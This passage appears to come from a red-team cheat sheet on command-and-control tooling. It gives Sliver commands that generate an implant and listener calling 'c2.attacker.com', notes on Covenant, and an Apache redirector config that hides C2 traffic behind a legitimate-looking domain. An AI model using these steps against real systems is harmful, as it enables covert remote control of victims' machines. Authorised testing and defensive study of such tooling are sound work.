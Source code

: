 ```bash
execute

# Interact with agent
agents
interact <agent_name>
```

#### Covenant

```bash
# .NET C2 framework
# Web-based interface
# Features:
# - C# agents (Grunts)
# - Task scheduling
# - Built-in modules
# - Collaborative

# Access via web browser
http://localhost:7443
```

#### Sliver

```bash
# Modern C2 framework
# Start Sliver server
sliver-server

# Generate implant
generate --http c2.attacker.com --save /tmp/implant.exe

# Start listener
http --domain c2.attacker.com

# Interact with session
sessions
use <session_id>
```

### C2 Infrastructure Setup

#### Redirectors

```bash
# Apache mod_rewrite for redirector
<VirtualHost *:80>
    ServerName legitimate-domain.com
    
    # Redirect C2 traffic to actual C2 server
    RewriteEngine On
    RewriteCond %{REQUEST_URI} ^/beacon
    RewriteRule ^.*$ https://actual-c2-server.com%{REQUEST_URI} [P,L]
    
    # Redirect other traffic to legitimate site
    RewriteRule ^.*$ https://legitimate-site.com%{REQUEST_URI} [P,L]
</VirtualHost>
```
